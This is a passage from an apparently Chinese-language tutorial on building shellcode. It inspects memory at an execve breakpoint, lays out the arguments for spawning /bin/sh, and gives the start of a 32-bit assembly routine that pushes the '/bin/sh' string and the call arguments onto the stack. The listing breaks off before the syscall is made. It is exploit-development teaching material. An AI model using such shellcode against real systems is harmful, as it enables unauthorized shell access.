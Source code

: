 在调用execve的地方设置断点，确认此时内存状态。

![Alt text](/img/interestingBin/1489141752365.png)

execve需三个参数，分别为：

* 第一参数:0xbfbfebb4(/bin/sh地址)
* 第二参数:0xbfbfebbc(/bin/sh的地址以及内容为NULL的数组)
* 第三参数:0x00000000(NULL)

已经将sample5.c所设计的样子将数据排列好。
0xbfbfebac和0xbfbfebb0与execv的调用无关，因此可以将它们删除掉，于是得到一段最低限度的内存配置

![Alt text](/img/interestingBin/1489142170085.png)

编写汇编代码，将上述数据写入栈当前esp以后的位置，并调用execve。


```nasm
.globl main
main:
    xorl  %eax, %eax
    pushl %eax   ;data[1](NULL)
    movl  %esp, %eax
    subl  $0x0c,%eax
    pushl %eax   ;data[0](/bin/sh地址)
    movl  %esp, %ebx
    pushl $0x0068732f ;字符串"/sh\0"
    pushl $0x6e69622f  ;字符串"/bin"
    movl  %esp, %edx
    xorl  %eax, %eax
    pushl %eax   ;第三参数
    pushl %ebx   ;第二参数
    pushl %edx   ;第一参数
    pushl %eax   ;call的返回地址(可以为任意值)
    movb  $0x3b, %al
```